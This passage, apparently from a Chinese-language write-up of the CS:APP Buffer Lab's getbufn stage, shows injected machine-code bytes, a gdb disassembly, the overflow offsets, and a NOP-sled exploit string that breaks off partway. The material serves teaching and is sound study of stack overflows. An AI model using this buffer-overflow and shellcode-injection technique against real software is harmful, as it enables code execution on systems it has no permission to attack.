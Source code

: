 最终得到的机器码为：

`a1 04 d1 04 08 8d 6c 24 28 68 e2 8c 04 08 c3`

**编写漏洞字符串**

因为每次buf的首地址都不同，不能向level3一样把机器码从buf的首地址开始保存，观察每次buf的首地址，发现最大差值不超过`0x1f5`（509），再结合提示：利用nop sled，把机器码存放到buf的底部，从buf的首地址开始用`nop`的机器码`90`填充。`getbufn`返回后跳转到buf可能的最高地址（0x55683b28），往后执行，不断执行`nop`指令后一定会来到编写好的机器码。

查看getbufn中buf的地址：

```assembly
(gdb) disass getbufn
Dump of assembler code for function getbufn:
   0x08049244 <+0>:		push   %ebp
   0x08049245 <+1>:		mov    %esp,%ebp
   0x08049247 <+3>:		sub    $0x218,%esp
   0x0804924d <+9>:		lea    -0x208(%ebp),%eax
   0x08049253 <+15>:	mov    %eax,(%esp)
   0x08049256 <+18>:	call   0x8048c32 <Gets>
   0x0804925b <+23>:	mov    $0x1,%eax
   0x08049260 <+28>:	leave  
   0x08049261 <+29>:	ret    
End of assembler dump.
```

可以看到buf的首地址为%ebp - 0x208，所以漏洞字符串应有528字节，最后525 - 528是我们将要覆盖的地址，509 - 524是漏洞机器码。

最终的漏洞字符串为：

```
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
```
